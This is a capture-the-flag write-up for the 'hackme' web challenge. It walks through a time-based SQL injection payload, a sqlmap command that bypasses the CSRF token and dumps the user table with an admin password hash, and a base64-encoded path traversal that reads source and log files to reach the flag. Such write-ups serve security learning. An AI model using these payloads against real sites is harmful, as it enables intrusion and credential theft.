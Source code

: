 # Writeup for hackme

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.

![Screenshot_1.png](Screenshot_1.png)

We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. Command `python sqlmap.py -u "http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/login.php" --csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/" --data="username=a&password=a&Login=Login&user_token=" --dump`

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases

![Screenshot_2.png](Screenshot_2.png)

After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.

![Screenshot_3.png](Screenshot_3.png)

We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line in `index.php` was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. 

Downloaded file contained FLAG
